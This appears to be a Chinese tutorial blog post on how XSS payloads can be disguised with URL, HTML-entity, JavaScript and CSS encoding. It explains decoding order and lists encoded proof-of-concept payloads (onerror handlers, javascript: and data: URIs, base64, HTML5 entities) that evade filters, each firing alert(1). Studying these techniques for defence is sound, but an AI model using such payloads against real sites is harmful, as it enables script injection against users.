 +++
date = "2017-03-30T15:25:37+08:00"
description = ""
draft = false
tags = ["xss"]
title = "XSS中的编码"
topics = ["Pentest"]

+++

> {{% fluid_img src="/img/anime/anime006.jpg" alt="攻壳机动队" %}}

### 0x00 浏览器解析
> ```
浏览器收到服务器发来的HTML内容，会从头解析，遇到<script></script>时，
会调用js脚本解析器来解析并执行脚本，然后继续解析其他的HTML内容，
对于需要触发才能执行的事件，当事件触发时脚本解析器才会解析其中的脚本，
在这之前它是HTML的一部分
```

### 0x01 一些编码
* URL编码
```
%+字符的ASCII编码对应的两位十六进制，如"/"的url编码为"%2F"
```

* HTML编码
    * 实体编码
    ```
    &开头分号结尾，如 "<" 的编码是 "&lt;"
    ```

    * 字符编码
    ```
    样式为"&#数值;"，数值可为10进制、16进制ASCII编码或unicode字符编码
    如"<"可编码为"&#060;"和"&#x3c;"，但是必须在属性值里面
    ```

* JS编码
```
1、两个十六进制数字，如果不够个数，前面补0，例如"<"编码为"\x3c"
2、三个八进制数字，如果不够个数，前面补0，例如"<"编码为"\074"
3、四个十六进制数字，如果不够个数，前面补0，例如"<"编码为"\u003c"
4、对于一些控制字符，使用特殊的C类型的转义风格（例如\n和\r）
```

* CSS编码
```
反斜线(\)后跟1~6位的16进制数字，如"e"为"\65"或"65"或"00065"
```

### 0x02 编码与解码顺序
> 解码时先解码最外层，编码时先编码最内层
```html
如<td onclick="openUrl(add.do?userName='{$value}');">11</td>，
首先value出现在url中，而url在js中，而js又是html一部分，所以
解码顺序为：html解码->js解码->url解码
编码顺序为：url编码->js编码->html编码
```

### 0x03 利用
* 八进制
```
<p id="test"></p>
<script type="text/javascript">
var test = "\74\151\155\147\40\163\162\143\75\170\40\157\156\145\162\162\157\162\75\141\154\145\162\164\50\61\51\76";
var p = document.getElementById('test'); #这里会进行js解码
p.innerHTML = test;
</script>
```

* 十进制和十六进制
```
<img src=x onerror="\u0061\u006c\u0065\u0072\u0074(1)">
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

* javascript协议
```
<a href="javascript:alert(1)">xxx</a>
```

* data协议
```
<a href="data:text/html,<script>alert(1)</script>">xxxxxx</a>
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">111</a>
<meta http-equiv="refresh" content="x;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```

* html5新增实体编码
```
<a href="javasc&NewLine;ript&colon;alert(1)">aaaa</a>
```

* 多次编码
```
点击后跳转到url，进行url解码
<a href="javascript:%61lert(1)">xxxx</a>
先最外围的html解码，然后href里的url解码
<a href="j&#x0061;vascript:&#x25;61lert(1)">click me</a>
```